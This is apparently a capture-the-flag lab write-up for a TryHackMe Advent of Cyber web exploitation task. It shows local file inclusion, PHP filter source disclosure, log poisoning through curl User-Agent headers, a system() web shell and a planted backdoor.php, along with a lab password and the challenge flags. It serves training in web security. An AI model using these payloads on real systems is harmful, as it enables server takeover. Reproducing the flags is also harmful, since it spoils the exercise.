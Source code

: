 # [Day6] *Web Exploitation* Patch Management Is Hard

-------------

> Author Razvan Bielz \
> Date: 11 Jan 2022

--------------

## Info

`IP: 10.10.156.109`

### Accounts

> McSkidy:A0C315Aw3s0m

--------------

## Steps

1. Notice link to error page:  
  `http://10.10.156.109/index.php?err=error.txt`\
2. Change *error.txt* to */etc/passwd* and notice you can read the file
3. Try PHP filter wrapper: `page.php?file=php://filter/resource=/etc/passwd` but it does not work on index.php so we try rot13 and then `http://10.10.156.109/index.php?err=php://filter/convert.base64-encode/resource=index.php`
4. Decode with HTML tags and find the first flag
5. Try log poisoning, including PHP Code in the log shown. Use curl:  
  `curl -A "Insert User-Agent here" http://10.10.156.109/index.php`  
  `curl -A "<?php phpinfo()?>" http://10.10.156.109/index.php`
6. From Incognito try to read the log file at *./includes/logs/app_access.log*  
  `http://10.10.156.109/index.php?err=./includes/logs/app_access.log`
7. Find the hostanem - own method - check the /etc/hosts using LFI
8. PHP remote code execution
    - `curl -A "<?php echo 'aylmano        ';?>" http://10.10.156.109/index.php`  
    - `curl -A "<?php echo 'aylmano        ';system(\$_GET['cmd']);?>" http://10.10.156.109/index.php`  
9. Test it in browser using `http://10.10.156.109/index.php?err=./includes/logs/app_access.log&cmd=whoami` and see the code execution worked
10. Redirect everything for cleaner working:  
    `10.10.156.109/index.php?err=./includes/logs/app_access.log&cmd=echo '<?php echo 'aylmano        ';system($_GET['cmd']);?>'>backdoor.php`  
11. Access it on `http://10.10.156.109/backdoor.php?cmd=whoami` and get full remote code execution

--------------

## Flags

`THM{791d43d46018a0d89361dbf60d5d9eb8}`  
`THM{d29e08941cf7fe41df55f1a7da6c4c06}`
`THM{552f313b52e3c3dbf5257d8c6db7f6f1}`  
`lfi-aoc-awesome-59aedca683fff9261263bb084880c965`  

--------------

## What have we learned?

- Local File Inclusion (LFI) vulnerability
  - An LFI vulnerability is found in various web applications. As an example, in the PHP, the following functions cause this kind of vulnerability:
    - include
    - require
    - include_once 
    - require_once 
  - It is a web application vulnerability that allows the attacker to include and read local files on the server. These files could contain sensitive data such as cryptographic keys, databases that contain passwords, and other private data. 
  - An LFI  vulnerability happens due to a developer's lack of security awareness. In some cases, developers need to include the content of other local files within a specific page. Suppose a developer includes files without proper input validation. In that case, the LFI vulnerability will exist as a developer should never trust user input and keep all inputs from users to be filtered and sanitized. The main issue of these vulnerabilities is the lack of input validation, in which the user inputs are not sanitized or validated, and the user controls them.